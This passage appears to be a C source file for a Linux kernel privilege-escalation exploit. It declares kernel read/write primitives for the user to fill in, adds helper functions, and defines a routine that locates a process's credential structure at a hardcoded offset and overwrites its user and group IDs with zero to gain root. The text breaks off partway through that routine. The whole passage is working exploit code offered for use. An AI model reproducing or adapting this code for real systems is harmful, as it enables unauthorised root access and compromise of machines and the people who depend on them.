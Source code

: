 ```c
#ifdef DEBUG
#define DBG_PRINT(...)  do { fprintf(stderr, __VA_ARGS__); } while (0)
#else
#define DBG_PRINT(...)  do { } while (0)
#endif

// ----------------------------------------------------------------------------
// Exploit primitives, you need to fill them!

uint64_t kread64(uint64_t addr);
void kwrite64(uint64_t addr, uint64_t value);

// ----------------------------------------------------------------------------
// Helper functions for the exploit

uint32_t kread32(uint64_t addr)
{
  return kread64(addr);
}

void kwrite32(uint64_t addr, uint32_t value)
{
  uint32_t hi_dword = kread64(addr) >> 32;
  kwrite64(addr, ((uint64_t) hi_dword << 32) | value);
}

// Given a task structure address, patches its credentials.
void patch_creds(uint64_t task_struct)
{
#define DELTA_CREDS 0x498
  uint64_t task_creds = kread64(task_struct + DELTA_CREDS);

  struct cred
  {
    uint32_t usage;
    uint32_t uid;             /* real UID of the task */
    uint32_t gid;             /* real GID of the task */
    uint32_t suid;            /* saved UID of the task */
    uint32_t sgid;            /* saved GID of the task */
    uint32_t euid;            /* effective UID of the task */
    uint32_t egid;            /* effective GID of the task */
    uint32_t fsuid;           /* UID for VFS ops */
    uint32_t fsgid;           /* GID for VFS ops */
    uint32_t securebits;      /* SUID-less security management */
    uint64_t cap_inheritable; /* caps our children can inherit */
    uint64_t cap_permitted;	  /* caps we're permitted */
    uint64_t cap_effective;	  /* caps we can actually use */
    uint64_t cap_bset;	      /* capability bounding set */
  };

#define GLOBAL_ROOT_UID     0
#define GLOBAL_ROOT_GID     0
#define SECURE_BITS_DEFAULT 0
#define CAP_EMPTY_SET       0
#define CAP_FULL_SET        -1

  kwrite32(task_creds + offsetof(struct cred, uid),   GLOBAL_ROOT_UID);
  kwrite32(task_creds + offsetof(struct cred, gid),   GLOBAL_ROOT_GID);
  kwrite32(task_creds + offsetof(struct cred, suid),  GLOBAL_ROOT_UID);
  kwrite32(task_creds + offsetof(struct cred, sgid),  GLOBAL_ROOT_GID);
  kwrite32(task_creds + offsetof(struct cred, euid),  GLOBAL_ROOT_UID);
  kwrite32(task_creds + offsetof(struct cred, egid),  GLOBAL_ROOT_GID);
  kwrite32(task_creds + offsetof(struct cred, fsuid), GLOBAL_ROOT_UID);
```